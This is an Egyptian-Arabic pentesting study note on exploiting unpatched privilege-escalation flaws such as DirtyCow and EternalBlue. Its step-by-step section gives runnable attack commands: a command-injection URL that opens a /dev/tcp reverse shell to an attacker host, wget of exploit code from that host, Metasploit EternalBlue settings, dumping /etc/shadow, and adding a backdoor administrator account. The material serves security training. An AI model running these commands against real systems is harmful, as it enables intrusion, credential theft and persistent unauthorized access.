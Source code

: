 # **1. إيه هو Exploiting Unpatched Privilege Escalation Vulnerabilities؟**

## **الشرح العميق:**
ال"Exploiting Unpatched Privilege Escalation Vulnerabilities" يعني استغلال ثغرات في تصعيد الصلاحيات (Privilege Escalation) اللي لسه ما اتعمللهاش تحديث (Unpatched) في نظام أو برنامج. الثغرات دي بتكون عيوب في البرمجيات (زي نواة لينكس، ويندوز، أو تطبيقات) بتسمح لمستخدم عادي (Low Privilege) يصير لمستوى أعلى (زي root أو System). "Unpatched" يعني إن الثغرة معروفة (لها CVE مثلًا) بس النظام ما اتحدثش عشان يصلحها، فالمهاجم يقدر يستغلها بسهولة لو عرف إزاي.

- **أمثلة:** DirtyCow (CVE-2016-5195) في لينكس، أو EternalBlue (CVE-2017-0144) في ويندوز.
- **الهدف:** تصعيد الصلاحيات من مستخدم عادي لـ Admin/Root.

## **الأدوات والأوامر العملية:**
### 1. **فحص النظام:**
   - لينكس: `uname -r` -> `3.16.0-38-generic` (لو قديم، ممكن يكون متأثر).
   - ويندوز: `systeminfo` -> تشوف الإصدار ومستوى التحديثات.
## 2. **البحث عن ثغرات:**
   - `searchsploit linux kernel 3.16` ->متاحة Exploits يجيب 
### 3. **Metasploit:**
   - `msfconsole` -> `search privilege escalation`.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون لقيت خرم في حيطة البيت لسه محدش سده، تدخل منه وتبقى الكبير جوا! Unpatched يعني النظام نايم وما حدثش، فتقدر تطلع الباشا بسهولة."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
الثغرات دي خطيرة لأنها بتفتح الباب للمهاجم يتحكم في النظام كله لو ما اتعمللهاش Patch. يعني:
- **تصعيد صلاحيات:** من مستخدم عادي لـ root/System.
- **تحكم كامل:** يسرق بيانات، يزرع Backdoors، أو يخرب النظام.
- **انتشار أوسع:** يستخدم النظام المخترق كقاعدة لمهاجمة أنظمة تانية.

في الـ Pentesting، الثغرات اللي ما اتحدثتش بتكون ذهب لأنها بتديك طريق سريع للوصول للقمة لو النظام متأخر في التحديثات.

## **الأدوات والأوامر العملية:**
### 1. **فحص الثغرات:**
   - لينكس: `cat /etc/os-release` + `uname -r` -> قارن بالـ CVEs.
   - ويندوز: `wmic qfe list` -> لو ما لقيتش تحديثات حديثة، ابحث عن Exploits.
### 2. **تشغيل Exploit:**
   - لو لقيت CVE-2016-5195 (DirtyCow):
     - `gcc -pthread dirty.c -o dirtycow && ./dirtycow`.
### 3. **Metasploit مثال:**
   - `use exploit/windows/local/ms10_092_schelevator` -> لو ويندوز قديم.

## **خلاصة بالعامية المصرية:**
"المشكلة خطيرة لأنها زي ما تكون سايب باب البيت مكسور وما صلحتوش، أي حد يخش ياخد كل حاجة! المهاجم يلاقي الثغرة دي، يبقى الكبير بتاع النظام في ثواني."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الثغرات اللي ما اتعمللهاش Patch عشان تصعد صلاحياتك من مستخدم عادي لـ Admin/Root.
- **مثال واقعي:** لو لقيت سيرفر لينكس قديم متأثر بـ DirtyCow، تشغل الـ Exploit وتاخد root.

## **خلاصة بالعامية المصرية:**
"لما تلاقي ثغرة زي دي، زي ما تكون لقيت كنز في لعبة، تستخدمه وتبقى الكبير بتاع الماتش من غير ما حد يحس!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29 (لينكس).
  - Port 445: SMB (ويندوز).

## **الخطوة 2: الوصول الأولي**
- لو لقيت ثغرة ويب:
  - `http://192.168.1.10/ping?ip=127.0.0.1; id` -> لو رجع `www-data`:
  - `http://192.168.1.10/ping?ip=127.0.0.1; /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell.

## **الخطوة 3: التحقق من الإصدار**
- في لينكس:
  - `uname -r` -> `3.16.0-38-generic` (متأثر بـ DirtyCow مثلًا).
- في ويندوز:
  - `systeminfo | findstr "OS Version"` -> `6.1.7600` (Windows 7 بدون SP1، متأثر بـ MS17-010).

## **الخطوة 4: البحث عن Exploit**
- لينكس:
  - `searchsploit linux kernel 3.16` -> يجيب DirtyCow (CVE-2016-5195).
- ويندوز:
  - `searchsploit windows 7 privilege` -> يجيب MS17-010 (EternalBlue).

## **الخطوة 5: تشغيل الـ Exploit**
- **في لينكس (DirtyCow):**
  - `wget http://192.168.1.100/dirty.c -O /tmp/dirty.c`.
  - `gcc -pthread /tmp/dirty.c -o /tmp/dirtycow`.
  - `./tmp/dirtycow` -> يضيف مستخدم `firefart` كـ root.
  - `su firefart` -> كلمة السر `firefart` -> `id` -> `uid=0(root)`.
- **في ويندوز (MS17-010):**
  - `msfconsole`.
  - `use exploit/windows/smb/ms17_010_eternalblue`.
  - `set RHOSTS 192.168.1.10`.
  - `set LHOST 192.168.1.100`.
  - `exploit` -> Shell كـ `SYSTEM`.

## **الخطوة 6: استغلال وتوثيق**
- كـ root/System:
  - لينكس: `cat /etc/shadow` -> تسريب كلمات السر.
  - ويندوز: `net user hacker pass123 /add && net localgroup administrators hacker /add`.
- سجل الثغرة (مثل CVE-2016-5195) والإصدار المتأثر في تقريرك.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت سلاح قوي في لعبة، ضربت بيه الكل، وطلعت الكبير بتاع الحتة! الثغرات اللي ما اتحدثتش طريقك للفوز بسهولة لو لقيتها."

---

# **الخلاصة النهائية:**
Exploiting Unpatched Privilege Escalation Vulnerabilities هي طريقة خطيرة وفعالة لتصعيد الصلاحيات لو النظام ما اتحدثش. في الـ Pentesting، دور على الإصدارات القديمة بـ `uname` أو `systeminfo`، استخدم أدوات زي Searchsploit أو Metasploit عشان تشغل الـ Exploits، ووري 
العميل إن نظامه زي بيت مكسور لو ما حدثش! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!


---
# اختبر حفظك : [[Exploiting unpatched privilege escalation vulnerabilities (Q).]]